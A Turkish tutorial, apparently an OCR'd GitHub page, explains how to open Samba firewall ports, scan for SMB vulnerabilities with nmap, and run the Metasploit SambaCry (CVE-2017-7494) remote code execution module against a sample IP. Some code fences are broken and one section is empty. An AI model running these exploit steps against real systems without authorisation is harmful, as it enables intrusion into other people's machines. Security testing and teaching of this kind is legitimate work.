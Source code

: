 ### 📌 Güvenlik Duvarı (Firewall) Ayarları
Eğer Samba sunucusu düzgün çalışmıyorsa, gerekli portları açmanız gerekebilir.
### 🛠 UFW (Ubuntu/Debian) ile Samba Portlarını Açma
```bash
sudo ufw allow 139/tcp
```
sudo ufw allow 445/tcp
sudo ufw allow 137/udp
sudo ufw allow 138/udp
sudo ufw reload
### 🛠 Firewalld (CentOS/RHEL) ile Samba Portlarını Açma
```bash
sudo firewall-cmd --permanent --add-service=samba
```
sudo firewall-cmd --reload
### 📌 Sonuç
### ✔ SMB bağlantıları için en kritik port: TCP 445
✔ NetBIOS uyumluluğu için: TCP 139, UDP 137 ve 138
✔ Güvenlik için gereksiz portları kapatmak önerilir.
### 🔍 Samba Exploit ve Güvenlik Açıkları
Samba, zaman zaman güvenlik açıkları içerebilir ve bu açıklar saldırganlar tarafından yetkisiz erişim, uzaktan kod çalıştırma veya bilgi sızdırma gibi amaçlarla kullanılabilir.
### 📌 Samba Exploit'leri genellikle şu yöntemlerle gerçekleştirilir:
✅ SMB zafiyetlerini kullanarak yetkisiz erişim
✅ SMB bağlantısını dinleyerek kimlik bilgilerini çalma
✅ Uzaktan kod çalıştırma (RCE - Remote Code Execution) açıkları

### 📌 1. Önemli Samba Güvenlik Açıkları ve Exploit’ler

### 📌 2. Samba Zafiyet Tespiti (Nmap ile Tarama)
Eğer ağınızdaki bir cihazın Samba servisini çalıştırıp çalıştırmadığını ve güvenlik açığı olup olmadığını görmek istiyorsanız Nmap SMB taraması yapabilirsiniz:
```bash
nmap -p 139,445 --script=smb-vuln* 192.168.1.100
```
Bu komut, hedef sistemin SMB protokolünde bilinen açıkları tarar.


### 📌 3. Metasploit ile Samba Exploit Kullanımı
### 📌 CVE-2017-7494 Exploit (SambaCry – Remote Code Execution)
Eğer hedef sistemin Samba sürümü 3.5 - 4.6 arasındaysa, Metasploit ile exploit edilebilir.
🔹 Exploit Çalıştırma
#### 1️⃣ Metasploit’i başlat:
```bash
msfconsole
```
#### 2️⃣ Exploit modülünü seç:
```bash
use exploit/linux/samba/is_known_pipename
```
#### 3️⃣ Hedef IP’yi belirle:
```bash
set RHOSTS 192.168.1.100
```
#### 4️⃣ Exploit’i çalıştır:
```bash
exploit
```